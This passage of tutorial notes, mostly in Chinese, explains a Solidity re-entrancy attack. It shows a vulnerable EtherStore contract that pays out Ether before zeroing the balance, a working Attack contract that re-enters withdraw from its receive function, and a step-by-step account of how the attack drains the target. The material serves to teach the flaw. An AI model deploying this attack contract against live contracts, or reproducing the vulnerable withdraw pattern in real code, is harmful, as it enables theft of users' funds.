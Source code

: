                     function deposit() public payable {
                        balances[msg.sender] += msg.value;
                    }
                
                    function withdraw() public {
                        uint256 bal = balances[msg.sender];
                        require(bal > 0);
                
                        (bool sent,) = msg.sender.call{value: bal}("");
                        require(sent, "Failed to send Ether");
                
                        balances[msg.sender] = 0;
                    }
                
                    // 用于检查此合约的余额
                    function getBalance() public view returns (uint256) {
                        return address(this).balance;
                    }
                }
                ```
                
            - **Re-Entrancy攻击合约Attack**
                
                ```solidity
                contract Attack {
                    EtherStore public etherStore;
                    uint256 public constant AMOUNT = 1 ether;
                
                    constructor(address _etherStoreAddress) {
                        etherStore = EtherStore(_etherStoreAddress);
                    }
                
                    // receive is called when EtherStore sends Ether to this contract.
                    receive() external payable {
                        if (address(etherStore).balance >= AMOUNT) {
                            etherStore.withdraw();
                        }
                    }
                
                    function attack() external payable {
                        require(msg.value >= AMOUNT);
                        etherStore.deposit{value: AMOUNT}();
                        etherStore.withdraw();
                    }
                
                    // Helper function to check the balance of this contract
                    function getBalance() public view returns (uint256) {
                        return address(this).balance;
                    }
                }
                
                ```
                
            - 攻击过程
                1. attack 函数中攻击者先转入一定数量的 ETH，调用 etherStore.deposit 函数转移到目标合约 EtherStore 中，接下来调用 etherStore.withdraw 函数提取 ETH。这看似是一个常规的操作，但问题出现在下一个函数。
                2. receive 是合约接收 ETH 时默认执行的函数，它由 payable 关键字修饰，表明它可以接收发送来的 ETH（也可以使用 fallback 函数来实现同样的效果）。在函数内部，当目标合约中的余额满足条件（大于 1 ETH）时，会再次调用 withdraw 函数，即发起重入，由于目标合约中用户的余额是在最后一步才进行更新，因此 require(bal > 0); 条件依旧满足，也就可以继续把目标合约中的 ETH 转移走
                